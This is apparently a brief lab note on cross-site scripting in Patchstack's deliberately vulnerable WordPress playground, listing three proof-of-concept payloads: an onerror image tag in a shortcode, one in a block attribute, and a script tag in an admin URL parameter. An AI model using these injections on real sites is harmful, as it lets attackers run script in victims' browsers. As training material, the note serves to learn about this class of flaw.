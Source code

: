 # Cross Site Scripting

https://github.com/patchstack/vulnerability-playground/blob/main/xss/init.php

```
[custom_link url="https://0xbro.red" class="" text="<img src='' onerror=alert(1)>"]

<!-- wp:vulnerability-playground/custom-heading {"heading-tag":"img src=x onerror=alert(document.domain)","content":"test"} -->xxx<!-- /wp:vulnerability-playground/custom-heading -->

http://127.0.0.1:8080/wp-admin/index.php?notices=1&message=<script>alert(1)</script>
```